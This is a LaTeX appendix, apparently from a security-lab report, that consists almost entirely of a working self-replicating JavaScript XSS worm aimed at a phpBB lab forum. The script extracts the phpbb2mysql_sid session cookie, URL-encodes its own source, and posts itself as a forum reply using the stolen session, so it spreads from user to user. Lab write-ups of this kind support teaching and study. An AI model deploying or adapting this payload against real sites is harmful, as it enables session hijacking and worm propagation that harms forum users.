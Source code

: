 \documentclass[12pt, a4paper]{article}
\begin{document}
\begin{appendices}
\section{Self-replicating JavaScript for forging message.\label{app:javasc2}}

\lstset{
  captionpos=b,
  frame=single,
  language=JavaScript,
  breaklines=true,
  caption="Self-replicating JavaScript for forging message.",
  label=parta:script2
}
\begin{lstlisting}
<script id=worm>
var Ajax=null;
// Construct the header information for the Http request
Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabphpbb.com/posting.php",true);
Ajax.setRequestHeader("Host","www.xsslabphpbb.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");

// Steal cookie
var valueSearched = "phpbb2mysql_sid=";

// Find where mysql sid is 
var indexOfSid = document.cookie.indexOf(valueSearched);

// Move the string behind mysql_sid=
indexOfSid = indexOfSid - (-valueSearched.length);

// Check if there is a semicolon at the end, we only want one parameter from cookie
var semicolonIndex = document.cookie.indexOf(";", indexOfSid);

var stolenCookie = "";

if(semicolonIndex == -1) {
  stolenCookie = document.cookie.slice(indexOfSid);
} else {
  stolenCookie = document.cookie.slice(indexOfSid, semicolonIndex);
}

// Construct the content. The format of the content can be learned
// from LiveHttpHeader. All we need to fill is subject, message, and sid.
var content="subject=XSSWorm"; // You need to fill in the details.

// Add message body
content = content.concat("&message=Attack");

// Script tags have to be encoded, otherwise script won't be valid
// When passed in request string
var strCode = document.getElementById("worm");
var beg = "%3Cscript id=worm%3E";
var end = "%3C/script%3E";
var urlEncSample = beg.concat( escape(strCode.innerHTML), end);

// Set the script to be content of the request
content = content.concat(urlEncSample);

// Choose topic number
content = content.concat("&t=8");

// Add session id stolen from cookie
content = content.concat("&sid=", stolenCookie); // e.g. 642b0037b1b4f81a4141e8fb505e50f6

// Specify posting mode, here we want to reply
content = content.concat("&mode=reply");
content = content.concat("&post=Submit");
// Send the HTTP POST request.
Ajax.send(content);
</script>
\end{lstlisting}


\end{appendices}
\end{document}
